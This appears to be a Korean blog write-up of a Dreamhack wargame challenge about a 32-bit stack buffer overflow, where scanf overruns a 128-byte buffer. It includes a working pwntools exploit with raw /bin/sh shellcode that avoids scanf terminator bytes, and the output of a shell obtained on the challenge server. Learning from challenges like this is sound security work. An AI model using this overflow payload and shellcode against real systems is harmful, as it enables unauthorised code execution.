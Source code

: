 ```yaml
---
title: "Wargame - basic_exploitation_000"
categories: [Wargame, pwnable]
tags: [wargame, stack frame, pwnable, pwntools] # TAG names should always be lowercase
---
```


[basic_exploitation_000](https://dreamhack.io/wargame/challenges/2)

## 문제 상황 분석
문제 상황을 분석해보자.
```c
...
int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

지역변수 `buf`의 크기가 0x80 바이트로 제한되어있으나, `scanf()`함수를 사용하여 최대 141바이트를 읽는다. 이는 buf의 크기를 뛰어 넘으므로 Buffer Overflow 취약점이 발생한다.

main함수의 지역변수는 128바이트 크기의 `buf` 하나 뿐이므로 Stack Frame은 다음과 같다.
```text
+-------------------+ # Low
|        buf        | <- 0x80 byte
+-------------------+
|        SFP        | <- 4 byte
+-------------------+
|        RET        | <- 4 byte
+-------------------+ # High
```

따라서, `scanf()`에 첫 132바이트에 셸코드를 삽입하고, 이후 4바이트(RET)에는 셸코드의 시작 주소를 삽입하면 BOF로 인해 셸코드가 실행될 것이다.

## 페이로드 작성
페이로드를 작성해 보자.

```python
from pwn import *

context.arch = "i386"
context.bits = 32
context.endian = "little"

p = process("./basic_exploitation_000")
p = remote("host3.dreamhack.games", 8955)

#shellcode = asm(shellcraft.sh()).ljust(0x80, b'\x90')
shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
shellcode = shellcode.ljust(0x80, b'\x90')

shellcode += b'BBBB'

addr = p.recvline().decode().split()[2].strip('()')
print(f"Given Buffer Address: {addr}")

addr = p32(int(addr, 16))

shellcode += addr
print("Total shell code bytes : ", len(shellcode))


p.sendline(shellcode)

p.interactive()
```

디버깅 흔적이 남아있는 페이로드 코드다. `scanf()`를 대상으로 pwntools의 shellcraft.sh()의 셸코드를 사용하면 정상적으로 동작하지 않는다.

shellcraft.sh()의 코드에는 `scanf()`가 종단 문자로 취급하는 whitespace 바이트 코드가 중간에 포함되어 있기 때문이다. 가볍게 확인해보자.

```python
#! /usr/bin/python
#Name : test.py
from pwn import *

context.arch = "i386"
context.bits = 32
context.endian = "little"

shellcode = asm(shellcraft.sh())

scanf_end = [b'\x00', b'\x09', b'\x0a', b'\x0b', b'\x0c', b'\x0d', b'\x20']

found_chars = [x for x in scanf_end if x in shellcode]

print(found_chars)
```
```shell
$ python test.py
[b'\x0b']
```
shellcraft.sh() 셸코드에 종단문자가 포함되어있는지 확인하는 코드다. 결과를 보면, 종단문자가 포함되어있음을 알 수 있다. 따라서, 별도의 인코딩 과정 없이 이 셸코드를 사용하기는 어려워보인다. 인코딩 방법은 더 공부해야겠다.

shellcraft.sh() 셸코드를 사용하지 않고, `scanf()`우회 셸코드를 사용했다. 
`\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80` 26바이트 셸코드다.

이제 페이로드를 실행시켜보자.
```shell
$ python exp.py
[+] Starting local process './basic_exploitation_000': pid 374
[+] Opening connection to host3.dreamhack.games on port 8955: Done
Given Buffer Address: 0xfff34448
Total shell code bytes :  136
[*] Switching to interactive mode
$ ls
basic_exploitation_000
flag
run.sh
$ id
uid=1000(basic_exploitation_000) gid=1000(basic_exploitation_000) groups=1000(basic_exploitation_000)
```

셸을 획득 했으므로 flag를 읽어올 수 있다.
